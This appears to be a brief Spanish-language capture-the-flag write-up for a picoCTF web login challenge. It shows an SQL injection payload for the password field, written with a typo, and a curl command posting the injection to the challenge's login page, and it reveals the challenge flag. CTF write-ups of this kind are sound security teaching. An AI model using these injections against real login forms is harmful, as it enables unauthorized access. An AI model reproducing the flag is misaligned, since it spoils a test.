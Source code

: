 
### Descripción 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
### Solución
Insertamos una inyeccion sql el campo de la contraseña, ya que al validar la segunda instrucción que nos da acceso al usuario admin, la sentencia se ejecuta por el or.
	**'or 1= =1;**

Solución:**picoCTF{s0m3_SQL_fb3fe2ad}**
### Notas adicionales
	SQL injection consiste en poner una sentencia maliciosa sql mediante una entrada en la pagina web 

	En la consola es con curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1==1;&debug=1"

### Referencias 
https://www.youtube.com/watch?v=0EDbUSDqrng&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=7
